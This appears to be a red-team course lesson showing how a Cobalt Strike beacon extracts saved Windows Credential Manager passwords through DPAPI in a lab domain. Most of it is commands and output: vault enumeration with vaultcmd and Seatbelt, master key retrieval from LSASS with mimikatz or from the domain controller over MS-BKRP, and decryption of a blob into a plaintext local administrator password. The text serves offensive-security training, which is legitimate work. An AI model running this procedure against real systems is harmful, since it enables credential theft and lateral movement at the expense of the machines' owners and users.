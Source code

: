 The way the Windows Credential Manager works is a bit confusing at first - if you read up on the subject, you'll find both the terms "Vaults" and "Credentials".  A "vault" essentially holds records of encrypted credentials and a reference to the encrypted blobs.  Windows has two vaults: Web Credentials (for storing browser credentials) and Windows Credentials (for storing credentials saved by mstsc, etc).  A "credential" is the actual encrypted credential blob.

To enumerate a user's vaults, you can use the native `vaultcmd` tool.
```
beacon> run vaultcmd /list

Currently loaded vaults:
	Vault: Web Credentials
	Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
	Location: C:\Users\bfarmer\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

	Vault: Windows Credentials
	Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
	Location: C:\Users\bfarmer\AppData\Local\Microsoft\Vault

beacon> run vaultcmd /listcreds:"Windows Credentials" /all

Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
Identity: SQL-2\Administrator
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```
  

Another is to use Seatbelt with the `-group=user` parameter, or more specifically, the `WindowsVault` parameter.
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault

====== WindowsVault ======

  Vault GUID     : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Vault Type     : Web Credentials
  Item count     : 0

  Vault GUID     : 77bc582b-f0a6-4e15-4e80-61736b6f3b29
  Vault Type     : Windows Credentials
  Item count     : 1
      SchemaGuid   : 3e0e35be-1b77-43e7-b873-aed901b6275b
      Resource     : String: Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
      Identity     : String: SQL-2\Administrator
      PackageSid   : (null)
      Credential   : 
      LastModified : 9/6/2022 9:12:12 AM
```
  

Based on this, we now know that the user has saved credentials for the local administrator account on SQL-2.  The encrypted credentials themselves are stored in the users' "Credentials" directory.
```
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials
[*] Listing: C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 468b     fil     09/06/2022 10:34:22   6C33AC85D0C4DCEAB186B3B2E5B1AC7C
 10kb     fil     08/30/2022 08:42:59   DFBE70A7E5CC19A398EBF1B96859CE5D

  

Seatbelt can also enumerate them using the `WindowsCredentialFiles` parameter.

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles

====== WindowsCredentialFiles ======

  Folder : C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\

    FileName     : 6C33AC85D0C4DCEAB186B3B2E5B1AC7C
    Description  : Local Credential Data

    MasterKey    : bfc5090d-22fe-4058-8953-47f6882f549e
    Accessed     : 9/6/2022 10:50:44 AM
    Modified     : 9/6/2022 10:50:44 AM
    Size         : 468

    FileName     : DFBE70A7E5CC19A398EBF1B96859CE5D
    Description  : Local Credential Data

    MasterKey    : bfc5090d-22fe-4058-8953-47f6882f549e
    Accessed     : 9/6/2022 10:50:44 AM
    Modified     : 9/6/2022 10:50:44 AM
    Size         : 11036
```

  As far as I'm aware, there is no way to know which credential blob belong to which vault; and by extension, if a vault has multiple entries, which credential blob corresponds to which.  This just ends with us having to decrypt each one in turn.

  

Seatbelt also provides the GUID of the master key used to encrypt the credentials.  The master keys are stored in the users' roaming "Protect" directory.  But guess what... they're also encrypted.
```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104
[*] Listing: C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     08/15/2022 17:34:31   bfc5090d-22fe-4058-8953-47f6882f549e
 928b     fil     08/15/2022 17:34:31   BK-DEV
 24b      fil     08/15/2022 17:34:31   Preferred
```
  

So we must decrypt the master key first to obtain the actual AES128/256 encryption key, and then use that key to decrypt the credential blob.  There are two ways of doing this.

The first is only possible if you have local admin access on the machine and if the key is cached in LSASS.  It will not be in the cache if the user has not recently accessed/decrypted the credential.
```
beacon> mimikatz !sekurlsa::dpapi

Authentication Id : 0 ; 1075454 (00000000:001068fe)
Session           : RemoteInteractive from 2
User Name         : bfarmer
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 9/6/2022 9:09:54 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1104
	 [00000000]
	 * GUID      :	{bfc5090d-22fe-4058-8953-47f6882f549e}
	 * Time      :	9/6/2022 11:27:44 AM
	 * MasterKey :	8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
	 * sha1(key) :	897f7bf129e6a898ff4e20e9789009d5385be1f3
```
  

We can see that the GUID matches what we are looking for, so the key `8d1539[...]19c214` is the one we need.

Another way to obtain the master key (which does not require elevation or interaction with LSASS), is to request it from the domain controller via the Microsoft BackupKey Remote Protocol (MS-BKRP).  This is designed as a failsafe in case a user changes or forgets their password, and to support various smart card functionality.
```
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
  sha1: 897f7bf129e6a898ff4e20e9789009d5385be1f3
```

  This will only work if executed in the context of the user who owns the key.  If your Beacon is running as another user or SYSTEM, you must impersonate the target user somehow first, then execute the command using the `@` modifier.

  

Finally, the blob can be decrypted.
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214

  TargetName     : Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
  UserName       : SQL-2\Administrator
  CredentialBlob : wIfY&cZ&d?QP9iMFEzckmj.34=@sg.*i
  ```